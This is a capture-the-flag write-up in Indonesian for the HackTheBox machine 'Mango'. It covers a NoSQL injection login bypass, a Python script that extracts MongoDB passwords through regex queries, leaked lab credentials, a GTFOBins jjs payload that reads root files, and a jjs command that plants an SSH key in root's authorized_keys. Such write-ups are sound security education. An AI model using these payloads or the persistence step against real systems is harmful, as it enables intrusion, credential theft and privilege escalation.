# Mango [Linux]



Sebuah box Mango dengan operating system Linux, setelah menyelesaikan beberapa HackTheBox machines saya sadar author sering kali mempleseti nama challenge dengan main objective di box tersebut. Pikiran saya langsung menuju ke MongoDB

### Enumeration

Seperti biasa mari kita mulai dengan nmap dan dirbuster





Terdapat port 22, 80, dan 443 dari nmap scan dan file menarik "analytics.php"

Tampilan index.php seperti google search yang tidak menghasilkan apa apa ketika di query


Tampilan analytics.php yang seperti admin panel dari sebuah website



Keduanya merupakan rabbit hole, kita ganti ke https dan cek certificate. Oh ternyata ditemukan virtual host yaitu staging-order.mango.htb



Ditemukan login page, menurut clue dari nama box, dan theme yang berfokus kepada mango. Maka ditentukan bahwa kita harus mengexploitasi mongoDB dengan melakukan NoSQL Injection.

Setelah menangkap login request dengan burpsuite kita bisa melihat request data seperti dibawah ini

```
username[$ne]=asd&password[$ne]=asd&login=login
```

### User

Referensi untuk melakukan NoSQL Injection bisa ditemukan di repo [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Bypass login berhasil, login page vulnerable terhadap injection, kita mendapatkan 302, redirection ke home.php



Tidak ada apa-apa, kalau begitu mari kita mengorek credentials menggunakan scripting dan exploitasi nosql tadi.

Script yang dibuat penulis untuk mengorek credential dari MongoDB adalah seperti dibawah ini

```
#!/usr/bin/env python3
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()
 
password=""
u="http://staging-order.mango.htb"
headers={
	'Content-Type': 'application/x-www-form-urlencoded',
}
 
while True:
	for c in string.printable:
		if c not in ['*','+','.','?','|']:
			final = "^"+password+c
			payload={'username[$eq]': 'mango', 'password[$regex]': final, 'login': 'login'} 
			r = requests.post(u, data = payload)
			print(password+c)
			if 'Plantation' in r.text or r.status_code == 302:
				print("Found one more char : %s" % (password+c))
				password += c
```

Setelah banyak enumerasi kita berhasil mendapatkan 2 kombinasi username dan password

```
user : admin
pw : t9KcS3>!0B#2

user : mango
pw : h3mXK8RhU~f{]f5H
```

Karena kita sudah mendapatkan credentials, mari kita coba untuk masuk ke ssh menggunakan credentials tersebut

SSH menggunakan credentials admin tidak menghasilkan apa-apa.

Namun kita bisa masuk ke SSH dengan menggunakan credentials mango.



Terdapat user.txt pada directory /home/admin/user.txt

Namun kita tidak memiliki permission to read.



Kita lakukan su admin dengan password yang kita dapatkan diatas, dan berhasil melakukan cat user.txt



### Root

Tetapi admin pun tidak memiliki permission root untuk membaca root.txt, mari kita jalankan enumerasi linux



Langsung saja kita ke GTFOBins, dibagian jjs

[https://gtfobins.github.io/gtfobins/jjs/](https://gtfobins.github.io/gtfobins/jjs/)

Kita bisa melakukan read ke root.txt dengan menggunakan payload

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```



Root.txt didapatkan, namun karena penulis sedikit iseng penulis ingin mencoba mendapatkan root di mesin ini bukan hanya root.txt nya jadi dilanjutkan beberapa step lagi

Sekarang kita akan mendapatkan root shell, dengan menggunakan jjs juga melakukan write rsa pub key yang sudah kita ssh-keygen kedalam /root/.ssh/authorized_keys

Copy isi dari rsa key public dan echo kedalam authorized_keys dengan

```
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIDsrRJpLbtQqhOAkFvEcKdIqsULu5L0sylY6bc+oQ+JR8lRXTaJuKuU4FMM7vW2xX3d36/3xAN7ktsUqpTbcr5TnmHPM7OZ8Njtrg9KtwTuQBMK0wfP7IThQwuucPmJUs4ezAyW4lZ8yeu8v+LPIGCAgrDXWmCTSsPyi0OhA+3tHP6UxYSBXVY09ZbR8iaw46d7JPNQbEnodnr2geMQ6pImKeCnd5TVNZBiQlxfevptEVkcPKTI4aGPLGZgr1mUvw3fu9urtwYEkbsWennLCf7sGt8fBv4dMx6h88qlcPdzSnDTsYjHeElbc+jIzL6JTuvYQYksncqd+XBJTywBpucvsdQYSml8s6bZ2Izsz/9+tbTJ+MkQJuAE/2ulFvzJEpu2lXhy6HtCCNlAbJ0QvDFjjGO1EvtDBx1/JRSB8ZOh9L6uNNeIIFNL2n+LXr3dLIe3hQYrGE1lj/n7Pkd1yXz5xsg9LqNekEJsgA8TBDalaEPJ/hd95K4MNTFqFtCxM= root@kali' > /root/.ssh/authorized_keys");
```

Setelah successful copy, buka local machine dan connect secara ssh dengan menggunakan rsa private key yang sudah dibuat tadi



Jika ini terjadi, chmod saja agar permissionnya hanya root yang bisa akses, sisanya 00-kan

chmod 700 id_rsa

Coba connect lagi, dan…



# Rooted !